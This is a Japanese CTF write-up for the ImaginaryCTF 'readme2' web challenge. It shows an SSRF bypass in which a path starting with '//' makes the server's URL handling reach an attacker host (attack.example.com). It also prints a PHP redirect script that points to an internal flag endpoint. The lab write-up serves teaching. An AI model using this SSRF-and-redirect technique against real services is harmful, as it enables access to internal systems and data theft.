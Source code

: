 - Dockerfile

```dockerfile
FROM oven/bun:1.1.20-slim

WORKDIR /app
COPY app.js ./

ENV FLAG="ictf{fake_flag}"

CMD ["bun", "run", "app.js"]
```

Bunが使われています。  
また、外部公開されている4000番ポートと非公開の3000番ポートでそれそれサーバが動いているようなので、SSRFを使う問題のようです。

パスの中に`flag`という文字列が含まれていると`403`エラーになるので何らかの方法で回避する必要があります。  
毎回`new URL(req.url)`をやっているので、そこがポイントになると思われますが、結局この回避方法は分かりませんでした。  
（ちなみに、`Flag.txt`等は問題なく通るものの、3000番のサーバの方で`404`エラーになるのでダメでした。）

しばらく考えていたところ、以下の処理で`url.pathname`が`//`から始まれば外部サーバにリクエストできそうだと気づきました。

```js
new URL(url.pathname + url.search, 'http://localhost:3000/')
```

例えば、`new URL('//attack.example.com', 'http://localhost:3000/')`を実行すると、`http://attack.example.com/`と解釈されるためです。  
`url.pashname`を`//`から始まるようにするのは簡単で、`http://example.com//test`のようにすれば良いです。

```js
> new URL('http://example.com//test')
URL {
  href: 'http://example.com//test',
  origin: 'http://example.com',
  protocol: 'http:',
  username: '',
  password: '',
  host: 'example.com',
  hostname: 'example.com',
  port: '',
  pathname: '//test',
  search: '',
  searchParams: URLSearchParams {},
  hash: '' }
```

試しに、`http://readme2.chal.imaginaryctf.org//<attackerサイト>`でアクセスしてみると、ちゃんと攻撃者サーバにアクセスが来ました。  
あとは、攻撃者のサーバから`http://localhost:3000/flag.txt`にリダイレクトさせてあげれば良さそうです。

- a.php（攻撃者サーバに置くリダイレクト用スクリプト）

```php
<?php
header("Location: http://localhost:3000/flag.txt");
die();
?>
```
